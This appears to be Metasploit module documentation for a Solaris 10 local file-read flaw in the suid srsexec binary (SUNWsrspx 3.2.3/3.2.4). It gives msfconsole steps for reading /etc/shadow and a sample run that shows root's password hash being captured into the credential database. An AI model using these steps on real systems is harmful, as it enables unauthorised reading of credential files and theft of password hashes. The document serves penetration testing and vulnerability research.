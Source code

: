 ## Vulnerable Application

  The vulnerable binary (`srsexec`) is included in the package Sun Remote Services
  Net Connect Software Proxy Core (SUNWsrspx).  The vulnerable versions are
  3.2.3 and 3.2.4, for Solaris 10.  This package was included on the extras/companion CD which
  doesn't seem to available anymore.  `srsexec`'s vulnerability is that it runs with the suid bit set,
  and in debug verbose mode if given a file as input, the first line of that file will be echoed back.
  Common exploitation is to read `/etc/shadow`, to get root's password hash, however any file can be read.

  In lieu of this, a mock application was created in python and is available
  [here](https://github.com/h00die/MSF-Testing-Scripts/blob/master/srsexec).
  Follow the instructions in the python script to install, `argparse` also needs to be sent
  to the Solaris box since pypi.org doesn't accept ssl2/3 which are the only versions in Solaris 10u9.

  The output from `srsexec` is slightly odd.  The first line of the file will be
  after `binaries file line: ` and truncated at 20 characters.  If the output is longer than 20 characters,
  then the next line will start with the last 2 characters from the previous line, followed by the next 
  18 characters, and so on.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Get a user level session
  4. Do: ```use solaris/escalate/srsexec_readline```
  5. Do: ```set session [#]```
  6. Do: ```run```
  7. You should be able to read the first line of a file.
  8. If `/etc/shadow` is selected, check `creds`.

## Options

  **File**

  The file that should have the first line read.  Default is `/etc/shadow` and root's hash will be databased.

## Scenarios

### Solaris 10 u9 with mock binary and python 2.4

```
msf5 post(solaris/escalate/srsexec_readline) > run

[+] 3.2.4 is vulnerable
[+] Raw Command Output: verify_binary(vFYZf)
srsexec: binary_name: vFYZf
srsexec: name_buf: vFYZf_______________
binaries file line: root:MW7h.vpI1Kq1g:1
binaries file line: :17599::::::
smmsp:NP
Security verification failed for binary: vFYZf
see SYSLOG(/var/adm/messages) for errors
[+] First line of /etc/shadow: root:MW7h.vpI1Kq1g:17599::::::
[+] Adding root's hash to the credential database.
[*] Post module execution completed
msf5 post(solaris/escalate/srsexec_readline) > creds
Credentials
===========

host          origin        service       public   private        realm  private_type
----          ------        -------       ------   -------        -----  ------------
              1.1.1.1                     root     MW7h.vpI1Kq1g         Nonreplayable hash
```
